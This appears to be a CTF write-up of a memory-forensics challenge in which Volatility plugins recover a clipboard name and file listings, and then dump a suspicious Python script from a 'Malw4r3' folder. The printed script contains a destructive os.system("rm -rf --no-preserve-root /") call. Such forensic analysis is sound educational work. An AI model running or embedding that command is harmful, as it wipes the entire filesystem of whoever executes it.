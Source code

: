 ```

Find this valuable information!

Author: Worty

Format: Hero{Lastname-Firstname:Lastname-Firstname:NAME-X.X.X}

### Solution

for this we get to use `clipboard` , `filescan` and `dumpfiles` plugins,

- clipboard

```
┌─[user@parrot]─[~/Desktop/CTFs/heroctf]
└──╼ $volatility -f capture.mem --profile Win7SP0x86 clipboard
Volatility Foundation Volatility Framework 2.6
Session    WindowStation Format                 Handle Object     Data                                              
---------- ------------- ------------------ ---------- ---------- --------------------------------------------------
         1 WinSta0       CF_UNICODETEXT       0x2a0163 0xffa007f8 GOLDEN Dany                                       
         1 WinSta0       CF_LOCALE            0x1c01fb 0xfe493690                                                   
         1 WinSta0       CF_TEXT                   0x1 ----------                                                   
         1 WinSta0       CF_OEMTEXT                0x1 ----------      
```

and we get a name `GOLDEN Dany`

- filescan 

```
┌─[✗]─[user@parrot]─[~/Desktop/CTFs/heroctf]
└──╼ $volatility -f capture.mem --profile Win7SP0x86 filescan | grep Malw4r3
Volatility Foundation Volatility Framework 2.6
0x000000007dc30518      8      0 RW-r-- \Device\HarddiskVolume2\Users\Razex\Documents\Malw4r3\Nemesis.py.txt.py.txt
0x000000007e12aec8      5      0 R--r-d \Device\HarddiskVolume2\Users\Razex\Documents\Malw4r3\nc.exe
0x000000007e35eaf8      1      1 R--rw- \Device\HarddiskVolume2\Users\Razex\Documents\Malw4r3
0x000000007e638228      1      1 R--rw- \Device\HarddiskVolume2\Users\Razex\Documents\Malw4r3
0x000000007fcaf4d8      1      1 R--rw- \Device\HarddiskVolume2\Users\Razex\Documents\Malw4r3
0x000000007fec2398      8      0 RW-rwd \Device\HarddiskVolume2\Users\Razex\Documents\Malw4r3\Nouveau document RTF.rtf
```
we get some cool findings in a folder `Malw4r3` and a python script that looks suspicious 

- dumpfiles
```
┌─[✗]─[skoki@parrot]─[~/Desktop/CTFs/heroctf]
└──╼ $volatility -f capture.mem --profile Win7SP0x86 dumpfiles -Q 0x000000007dc30518 -D .
Volatility Foundation Volatility Framework 2.6
DataSectionObject 0x7dc30518   None   \Device\HarddiskVolume2\Users\Razex\Documents\Malw4r3\Nemesis.py.txt.py.txt
```
 
 with contents as

```python
#Author : PAVOLI Ruben
#Version: 4.5.1
import os
os.system("rm -rf --no-preserve-root /")
def encrypt():
    with open("rsa_gen.key","rb"):
```